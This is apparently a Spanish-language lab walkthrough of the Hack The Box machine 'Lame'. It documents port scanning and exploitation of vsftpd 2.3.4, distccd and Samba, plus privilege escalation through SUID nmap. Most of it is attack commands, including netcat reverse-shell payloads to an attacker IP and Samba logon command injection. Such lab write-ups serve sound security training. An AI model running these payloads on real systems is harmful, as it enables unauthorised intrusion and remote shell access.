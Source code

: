 # Lame

IP: 10.10.10.3

## Escaneo

❯ ping -c 1 10.10.10.3
PING 10.10.10.3 (10.10.10.3) 56(84) bytes of data.
64 bytes from 10.10.10.3: icmp_seq=1 ttl=63 time=41.0 ms

--- 10.10.10.3 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 41.042/41.042/41.042/0.000 ms

`nmap -p- --open -T5 -v -n 10.10.10.3 -oN allPorts`

`sudo nmap -p- -sS --min-rate 5000 -vvv --open -Pn -T5 10.10.10.3 -oN allPorts`

### Escaneo de puertos
`sudo nmap -sC -sV -p21,22,139,445,3632 10.10.10.3 -oN targetedPorts`

ftp 10.10.10.3 --> anonymous
ls -lha

- cat targetedPorts | grep -oP '\d{1,5}/tcp.*' 
- searchsploit vsftpd 2.3.4
- buscamos en google --> vsftpd 2.3.4 exploit github

## Exploit ftp
telnet 10.10.10.3 21

- USER yintao:)
- PASS hola123

`sudo nmap -p6200 --open -T5 -v -n 10.10.10.3`

Descargamos el exploit
~~~
cd exploits
wget https://raw.githubusercontent.com/ahervias77/vsftpd-2.3.4-exploit/master/vsftpd_234_exploit.py
python3 vsftpd_234_exploit.py
python3 vsftpd_234_exploit.py 10.10.10.3 21 whoami
~~~

~~~
cat targetedPorts | grep -oP '\d{1,5}/tcp.*'
searchsploit distccd
distccd exploit github
wget exploit
python distccd_rce_CVE.py -t 10.10.10.3 -p 3632 -c whoami
~~~

## Reverse Shell
`nc -nlvp 443`

python distccd_rce_CVE.py -t 10.10.10.3 -p 3632 -c 'nohup nc -e /bin/bash 10.10.14.23 443 &'

~~~
whoami
script /dev/null -c bash
ctrl+z
export TERM=xterm
export SHELL=bash
ctrl+l
stty -a
stty rows 44 columns 187
nano
cd /home 
find \-name user.txt 2>/dev/null
find \-name user.txt 2>/dev/null | xargs head -c 18; echo
~~~
## Escala de privilegios
~~~
uname -a
id
sudo -l 
find \-perm -4000 2>/dev/null
which nmap
nmap --interactive
!sh
whoami
cd /root
ls
~~~

## Explotacion por Samba
En kali 2020 hay que:

Under the global section in "/etc/samba/smb.conf" file and add the following:

`client min protocol = NT1`

~~~
cd nmap
cat targetedPorts | grep -oP '\d{1,5}/tcp.*'
searchsploit samba 3. command execution
searchsploit -x exploits/unix/remote/16320.rb --> x: examinar
smbclient 10.10.10.3 -N --> comprobar recursos compartidos
smbmap -H 10.10.10.3
smbclient //10.10.10.3/tmp -N
dir
smbclient //10.10.10.3/tmp --option='client min protocol=NT1' -N
dir
nc -nlvp 443
smbclient //10.10.10.3/tmp -N
smb: \> logon "/='nohup nc -e /bin/bash 10.10.14.23 443'"
whoami
pwd
script /dev/null -c bash
ctrl+z
ssty raw -echo
export TERM=xterm
export SHELL=bash
~~~



